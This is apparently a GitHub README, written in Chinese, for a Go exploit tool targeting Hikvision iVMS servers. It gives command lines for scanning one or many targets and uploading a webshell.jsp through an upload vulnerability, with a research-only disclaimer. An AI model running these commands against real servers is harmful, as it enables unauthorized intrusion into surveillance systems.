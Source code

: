 # Hikvision_IVMS
本项目为海康威视IVMS 综合利用脚本，属于是初次学习Golang的练手小项目
# 使用方法
单个目标
```
./Exploit -u http://x.x.x.x -v Hikvision -w webshell.jsp
```
多个目标
```
./Exploit -f url.txt -v Hikvision -w webshell.jsp

url.txt内容为
http://x.x.x.x
https://x.x.x.x
```
检测某一个漏洞
```
./Exploit -u http://x.x.x.x -v Hikvision_ivms_upload1 -w webshell.jsp
```

# 注 意
本仓库分享的安全工具，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者无关。
